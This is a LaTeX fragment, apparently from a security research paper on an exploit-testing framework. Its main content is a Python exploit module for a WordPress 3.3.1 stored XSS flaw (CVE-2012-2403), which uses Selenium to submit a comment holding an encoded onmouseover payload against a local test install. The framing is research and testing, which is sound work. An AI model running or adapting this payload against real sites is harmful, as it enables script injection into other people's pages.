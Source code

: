 \documentclass[letterpaper,twocolumn,10pt]{article}
\begin{document}
Management actions, recording commands
attributes,
\begin{verbatim} 
__init__()
exploit()
check() [not yet]
cleanup()
\end{verbatim}

{\tt \small
\begin{figure}[!ht]
\begin{verbatim}
import corpus

class Exploit (corpus.Exploit):

    def __init__(self):
        corpus.Exploit.__init__(self, {
                'Name' :        "CVE_2012_2403",
                'Description' : "Creates a post containing a XSS payload.",
                'References' :  [['CVE','2012-2403'],
                                 ['OSVDB','81463']],
                'Target' :      "Wordpress 3.3.1",
                'Type' :        "XSS",
                'VulWikiPage' : "http://seamster.cs.umd.edu/CVE-2012-2403"
                })
        return
            
    def exploit(self):

        payload = "<a href=\"#\" title=\"XSS http://example.com/onmouseover"
                  "=eval(unescape(/%61%6c%65%72%74%28%31%29%3b%61%6c%65%72"
                  "%74%28%32%29%3b%61%6c%65%72%74%28%33%29%3b/.source))//\"
                  ">XSS</a>"

        driver = self.create_selenium_driver()
        driver.get("http://localhost/wordpress/?p=1")
        driver.find_element_by_id("author").clear()
        driver.find_element_by_id("author").send_keys("selenium script")
        driver.find_element_by_id("email").clear()
        driver.find_element_by_id("email").send_keys("selenium@python.org")
        driver.find_element_by_id("url").clear()
        driver.find_element_by_id("url").send_keys("www.python.org")
        driver.find_element_by_id("comment").clear()
        driver.find_element_by_id("comment").send_keys(payload)
        driver.find_element_by_id("submit").click()
        driver.cleanup()

        return

if __name__ == "__main__": # Exploit invoked from command-line
    engine = corpus.Engine(Exploit())
    engine.parse_args(sys.argv)
\end{verbatim}
\end{figure}
}


\subsubsection{As a Standalone Application}
\end{document}
